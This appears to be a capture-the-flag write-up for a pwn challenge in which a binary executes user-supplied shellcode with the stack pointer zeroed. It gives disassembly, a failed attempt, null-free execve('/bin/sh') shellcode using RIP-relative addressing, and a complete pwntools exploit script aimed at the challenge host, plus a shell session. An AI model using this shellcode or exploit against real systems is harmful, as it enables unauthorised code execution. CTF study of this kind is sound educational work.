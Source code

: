 # shellscope Writeup

## Challenge infos

```text
I just learned how to write shellcode!
But i'm not sure where to store things if i don't have a stack...
Challenge is running at: nc pwnable.co.il 9001
```

## Executable analysis
### checksec output
```text
        Arch:       amd64-64-little
        RELRO:      🟢 Full RELRO
        Stack:      🔴 No canary found
        NX:         🟢 NX enabled
        PIE:        🟢 PIE enabled
        SHSTK:      🟢 Enabled
        IBT:        🟢 Enabled
        Stripped:   🔴 No
```
* as we can see, the binary is very secure, it has full RELRO, NX enabled, PIE enabled, SHSTK enabled, and IBT enabled.
* this means that it will be hard to exploit the binary, but not impossible.
### main disassembly
```asm
   0x00000000000011a9 <+0>:     endbr64
   0x00000000000011ad <+4>:     push   rbp
   0x00000000000011ae <+5>:     mov    rbp,rsp
   0x00000000000011b1 <+8>:     sub    rsp,0x10
   0x00000000000011b5 <+12>:    mov    r9d,0x0
   0x00000000000011bb <+18>:    mov    r8d,0xffffffff
   0x00000000000011c1 <+24>:    mov    ecx,0x21
   0x00000000000011c6 <+29>:    mov    edx,0x7
   0x00000000000011cb <+34>:    mov    esi,0x1000
   0x00000000000011d0 <+39>:    mov    edi,0x0
   0x00000000000011d5 <+44>:    call   0x1090 <mmap@plt>
   0x00000000000011da <+49>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000000011de <+53>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00000000000011e2 <+57>:    lea    rsi,[rip+0x2e37]        # 0x4020 <reset_shellcodes>
   0x00000000000011e9 <+64>:    mov    rdi,rax
   0x00000000000011ec <+67>:    call   0x1080 <strcpy@plt>
   0x00000000000011f1 <+72>:    mov    rax,QWORD PTR [rip+0x2e68]        # 0x4060 <stdin@@GLIBC_2.2.5>
   0x00000000000011f8 <+79>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000000011fc <+83>:    lea    rcx,[rdx+0x30]
   0x0000000000001200 <+87>:    mov    rdx,rax
   0x0000000000001203 <+90>:    mov    esi,0xfcf
   0x0000000000001208 <+95>:    mov    rdi,rcx
   0x000000000000120b <+98>:    call   0x10a0 <fgets@plt>
   0x0000000000001210 <+103>:   mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000001214 <+107>:   mov    edx,0x5
   0x0000000000001219 <+112>:   mov    esi,0x1000
   0x000000000000121e <+117>:   mov    rdi,rax
   0x0000000000001221 <+120>:   call   0x10b0 <mprotect@plt>
   0x0000000000001226 <+125>:   mov    rax,QWORD PTR [rbp-0x8]
   0x000000000000122a <+129>:   call   rax
   0x000000000000122c <+131>:   mov    eax,0x0
   0x0000000000001231 <+136>:   leave
   0x0000000000001232 <+137>:   ret
```
* the main function is a bit complex, it uses `mmap` to allocate memory for a shellcode, copies the shellcode into the allocated memory, and then calls it.
* the shell code cannot have any null bytes, as it is copied into a buffer that is not null-terminated.


### first exploit attempt
* let's try to exploit the binary by sending a shellcode that spawns a shell.
* we will use pwntools to create the shellcode and send it to the binary. (shellcarft.sh() has no null bytes)
```python
io = start()

io.sendline(asm(shellcraft.sh()))
io.interactive()
```
* the out put looks like this:
```text
[+] Starting local process '/home/omri/dev/pwn-writeups/il/shellcope/shellcope': pid 44596
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Process '/home/omri/dev/pwn-writeups/il/shellcope/shellcope' stopped with exit code -11 (SIGSEGV) (pid 44596)
[*] Got EOF while sending in interactive
```
* we got a segmentation fault, which means that the shellcode is not being executed correctly.
* let's try to debug the binary and see what is going wrong.
### debugging the binary
* we can use gdb to debug the binary and see what is going wrong.
![gdb output](gdb.png)
* as we can see, the payload is not being executed correctly, and the program is crashing at push instruction.
* this is because sp is set to 0x0 so when we try to push we write to address 0x0, which is not allowed.
### Fixing the shellcode
* we can fix this by putting the `/bin/sh` string after the code, this way ther is no need to push anything to the stack.
* we can do this by using the `lea` instruction to load the address of the string into a register, and then use that register to call the `execve` syscall.
* the shellcode will look like this:
```asm
    lea rdi, [rip - 1] /* Get address of "/bin/sh" using RIP-relative and -1 for no nulls*/
    sub rdi, -9 /* Adjust to point to the start of the string  and sub - insted of add + to avoid nulls*/
    mov al, 59           /* execve syscall number */
    syscall
binsh:
    .ascii "/bin/sh\\0"
```
### Final exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template shellcope
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'shellcope')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwnable.co.il', 9001, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()
shellcode = """
    lea rdi, [rip - 1] /* Get address of "/bin/sh" using RIP-relative */
    sub rdi, -9
    mov al, 59           /* execve syscall number */
    syscall
binsh:
    .ascii "/bin/sh\\0"
"""

io.sendline(asm(shellcode))
io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9001: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcope
ynetd
$ cat flag.txt
PWNIL{flag_is_here}
```